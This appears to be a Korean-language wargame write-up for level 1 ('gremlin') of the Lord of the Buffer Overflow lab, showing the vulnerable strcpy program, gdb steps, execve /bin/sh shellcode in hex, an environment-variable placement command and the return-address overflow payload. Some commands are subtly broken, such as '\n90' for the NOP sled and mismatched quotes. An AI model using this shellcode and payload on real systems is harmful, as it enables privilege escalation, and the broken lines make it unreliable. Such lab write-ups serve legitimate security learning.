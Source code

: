 # LOB 1번

#### ID : gate PW: gate<br>
**먼저 bash2에서 실행해야함을 기억하자** <br>

우선 gremlin.c의 내용을 보자<br>
```cat gremlin.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[256];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼로 256byte를 입력받을 수 있고 argc가 2개 미만이면 오류를 출력하고 프로그램을 종료시킨다.<br>
2개 이상이라면 buffer에 argv[1] 인자를 복사하고 출력한다.<br>
이 문제는 strcpy 함수를 실행할 때 정해진 복사할 크기가 없다는 취약점을 이용한 것이다<br>

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**gremlin 코드를 디버깅해야하기 때문에 gremlin1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q gremlin1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 0x100만큼의 공간을 만들고 있다. 0x100은 10진수로 256이다.<br>
buffer에서 ebp까지의 거리가 256이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
